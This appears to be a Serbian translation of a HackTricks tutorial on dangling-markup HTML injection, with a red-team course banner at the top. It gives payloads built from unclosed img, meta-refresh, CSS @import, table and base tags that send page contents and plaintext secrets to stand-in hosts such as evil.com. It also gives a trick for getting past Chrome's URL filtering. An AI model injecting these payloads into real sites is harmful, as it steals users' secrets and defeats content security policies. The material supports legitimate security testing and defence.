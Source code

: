 # Dangling Markup - HTML scriptless injection

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Rezime

Ova tehnika može se koristiti za izvlačenje informacija od korisnika kada se pronađe **HTML ubacivanje**. Ovo je veoma korisno ako ne možete **pronaći način da iskoristite** [**XSS** ](../xss-cross-site-scripting/), ali možete **ubaciti neke HTML oznake**.\
Takođe je korisno ako je neka **tajna sačuvana u čistom tekstu** u HTML-u i želite je **eksfiltrirati** sa klijenta, ili ako želite da zavarate izvršenje nekog skripta.

Nekoliko tehnika komentarisanih ovde može se koristiti za zaobilaženje nekih [**Content Security Policy**](../content-security-policy-csp-bypass/) eksfiltriranjem informacija na neočekivane načine (html oznake, CSS, http-meta oznake, forme, base...).

## Glavne Primene

### Krađa tajni u čistom tekstu

Ako ubacite `<img src='http://evil.com/log.cgi?` kada se stranica učita, žrtva će vam poslati sav kod između ubačene `img` oznake i sledeće navodnika unutar koda. Ako se tajna nađe u tom delu, ukradećete je (možete uraditi istu stvar koristeći dvostruki navodnik, pogledajte šta bi moglo biti interesantnije za korišćenje).

Ako je `img` oznaka zabranjena (zbog CSP na primer) takođe možete koristiti `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`

```html
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```

Napomena da **Chrome blokira HTTP URL-ove** sa "<" ili "\n" u njima, pa možete pokušati sa drugim protokolima kao što je "ftp".

Takođe možete zloupotrebiti CSS `@import` (će poslati sav kod dok ne pronađe ";")

```html
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```

Takođe možete koristiti **`<table`**:

```html
<table background='//your-collaborator-id.burpcollaborator.net?'
```

Možete takođe ubaciti `<base` oznaku. Sve informacije će biti poslate dok se navod ne zatvori, ali zahteva neku interakciju korisnika (korisnik mora da klikne na neki link, jer će base oznaka promeniti domen na koji link pokazuje):

```html
<base target='        <--- Injected
steal me'<b>test</b>
```
